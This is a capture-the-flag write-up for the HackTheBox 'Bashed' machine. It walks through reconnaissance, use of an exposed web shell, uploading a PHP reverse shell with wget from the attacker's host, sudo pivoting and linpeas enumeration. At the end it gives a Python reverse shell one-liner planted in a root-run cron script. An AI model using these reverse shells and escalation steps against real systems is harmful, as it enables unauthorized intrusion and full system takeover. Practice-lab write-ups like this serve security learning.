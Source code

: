 # Bashed
## Recon
We start by scanning the machine with `nmap -sC -sV -Pn 10.10.10.68`. Surprisingly only port 80 is returned:
```
nmap -sV -sC -Pn 10.10.10.68
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Before navigating to the site, I decided to Fuzz the directory using FFUF: `ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://10.10.10.68/FUZZ` which spat out some interesting directories, most notably /uploads and /dev.

Actually browsing the site, we can see that it's hosting information about a tool written that creates an interactive web shell if uploaded to a server, and that this site/server was used to develop it. Just following the insctructions, we can find the shell it in /dev/phpbash.php and run it.

From here we can navigate to arrexel's home directory and get the user flag.

## Privesc
No disrespect to the person who wrote the shell, but I prefer the linux terminal, so i ran `ran find . -writable` to find a writeable directory `drwxrwxrwx 2 root root 4096 Jun 2 07:19 uploads` and uploaded a [PHP Reverse shell](https://github.com/pentestmonkey/php-reverse-shell) of my own. I created a python server on my host machine `sudo python3 -m http.server 9002` from this directory, opened netcat `nc -lnvp 9001` and uploaded my script to the server with: `wget http://10.10.14.4:9002/php-reverse-shell.php`.

I checked my priveleges as www-data with `sudo -l` and saw
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
I haven't seen this output before. What I gathered is that we can't really do much with our current account, but what we can do is something (maybe anything?) as scriptmanager without a password.

The first thing I tried was `su scriptmanager`. No luck, `su: must be run from a terminal`. So I decided to upgrade to a TTY Shell (Terminal Shell). I ran `/usr/bin/script -qc /bin/bash /dev/null`, tried to SU again, but this time needed the manager account password.

I did some more digging around online and saw I could spawn a terminal as this user *with sudo* like `sudo -u scriptmanager /bin/bash`

## Privesc to Root
The first thing I did with the new account was see what I could do with sudo - `sudo -l`. Nothing. Cool. Before running to linpeas, I decided to do some enumration manually, I looked at:
```
find . -writable (find writale directories)
find / -type f -perm -0400 -ls 2>/dev/null | grep 'usr/bin' (look for programs with the SUID bit set)
cat /etc/cronjobs (looked at scheduled cronjobs)
getcap -r 2>/dev/null (check my account capabilities)
```
I couldn't find anything of note, so it was now time to use linpeas. Similarly to getting my reverse shell, I used a python server to upload linpeas.sh to /home/scriptmanager on the target, set permissions on the file with `chmod +x linpeas.sh` and ran it as scriptmanager with `./linpeas.sh`.

For those that don't know, linpeas is a script designed to completely enumerate a Linux host (there is also winpeas, the windows equivalent). It will spot numerous potential vulnerabilities in the system, categorize them on severity, and sometimes even suggest CVEs to try. The amount of info that it spits out is too vast for me to want to cover in this write-up.

Anyway, three things stuck out to me:
```
══════════╣ Searching root files in home dirs (limit 30)
/home/arrexel/.bash_history - empty

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt

╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                          
/dev/mqueue                                                                                                                                                                                                
/dev/shm
/home/scriptmanager
/run/lock
/scripts
/scripts/test.py
```

I checked the bash_history for arrexel, nothing. Read test.txt, nothing interesting and then moved to /scripts/test.py. Reading the code for the script wasn't particularly interesting - it writes the output to test.txt. Having a look at /scripts/ I saw that my account had full permissions though. When I tried to run the python script, I did not have the permissions to access test.txt. Interesting.

Judging by the fact that I couldn't write to the test.txt file and that this file was specificially listed under something to check in linpeas, I took a wild swing and assumed that the script was being run automatically by the host.
I removed the original file `rm -r test.py` and echo'd a python one liner from [JohnJHacking](https://johnjhacking.com/blog/linux-privilege-escalation-quick-and-dirty/), instead replacing test.py with a file containing just
```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py
```

After a couple of seconds, after opening a netcat listener on port 9003, I had root access to the box.
